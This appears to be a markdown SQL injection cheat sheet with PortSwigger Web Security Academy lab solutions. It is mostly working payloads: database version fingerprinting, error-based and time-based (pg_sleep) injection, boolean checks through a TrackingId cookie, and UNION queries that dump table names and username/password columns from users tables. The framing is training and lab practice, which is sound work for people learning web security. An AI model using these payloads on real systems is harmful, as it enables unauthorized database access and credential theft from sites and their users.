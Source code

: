 ## Finding the Database Version
**MySQL and MSSQL** 
`',nickName=@@version,email='` <br>
**For Oracle** 
`',nickName=(SELECT banner FROM v$version),email='`<br>
**For SQLite** 
`',nickName=sqlite_version(),email='`

## Error-Based
* `CASE
    WHEN condition1 THEN result1
    WHEN condition2 THEN result2
    WHEN conditionN THEN resultN
    ELSE result
END;`
* `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
   xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`
* `CAST((SELECT example_column FROM example_table) AS int)`
* * Oracle 	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
  * Microsoft 	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
  * PostgreSQL 	`1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`
  * MySQL 	`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') `


### Extra
* `',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='` 

* `',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='`

* `',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='`
* `2 UNION SELECT 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c),4 fRoM information_schema.schemata-- `

### Portswigger Lab Solution

************Lab 1:************

[`https://0ae400e603589e9682b8f6d70007000d.web-security-academy.net/filter?category=Accessories%27%20or%201=1--`](https://0ae400e603589e9682b8f6d70007000d.web-security-academy.net/filter?category=Accessories%27%20or%201=1--)

In short: `‘ or 1=1—`

************Lab 2:************

Username: administrator’—

password: anything

************Lab 3:************

[`https://0ab7007f04c9464f81aad5ee002600c7.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%27%20union%20select%20null,null,null--`](https://0ab7007f04c9464f81aad5ee002600c7.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%27%20union%20select%20null,null,null--)

In short: `‘union select null,null,null—`

************Lab 4:************

`' union select null,'snEL3e',null—`

************Lab 5:************

`' union select username, password from users—`

************Lab 6:************

`' union select null,username || '~' || password from users—`

************Lab 7:************

`' union select banner,null from v$version—`

************Lab 8:************

`' union select null,@@version#`

************Lab 9:************

`' union select table_name,null from information_schema.tables—`

`' union select column_name,null from information_schema.columns where table_name = 'users_nrdogg'—`

`' union select username_rkwgpt,password_vkiejw from users_nrdogg—`

**************Lab 10:**************

`' union select table_name,'null' from all_tables—`

`‘ union select column_name,null from all_tab_columns where table_name=’USERS_AFMITF’—`

`' union select USERNAME_PZTRWZ,PASSWORD_GTYDKD from USERS_AFMITF—`

**************Lab 11:**************

Test by injecting the following code to the cookie value:

`…xyz and 1=1` It should take you to the welcome page

`…xyz and 1=0` It won’t take you to the welcome page

If those codes show desired outputs, the website is vulnerable to SQL Injection

`TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a’`--

If it shows a welcome page, there is a table called users

`' and substring((select 'a' from users where username='administrator'),1,1)='a'—`

If it shows a welcome page, there is an user named administrator

https://www.youtube.com/watch?v=LBG_n9fr8sM

**************Lab 14:**************
<br>  <br>
`TrackingId=' || pg_sleep(10)-- -`

**Lab 15:**

Use “Response Received” column from intruder and use it to sort the characters that took the most time


## CheatSheets
* [Portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
* [Advanced SQL Injection](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet)
